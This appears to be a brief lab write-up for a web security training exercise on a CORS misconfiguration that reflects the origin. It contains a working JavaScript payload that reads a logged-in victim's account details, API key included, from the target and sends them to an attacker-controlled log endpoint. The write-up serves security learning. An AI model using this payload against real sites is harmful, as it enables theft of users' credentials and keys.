 # CORS vulnerability with basic origin reflection
Enumerate the website to find `/accountDetails` which gives the API key. The server sends `access-control-allow-credentials: true` with the request which is interesting. Lets just make a script and see if it works.

```html
<script>
    var r = new XMLHttpRequest();
    r.onload = reqListener;
    r.open('get','https://0ac3008203dd12cd80c66ccd00d80034.web-security-academy.net/accountDetails',true);
    r.withCredentials = true;
    r.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

This worked.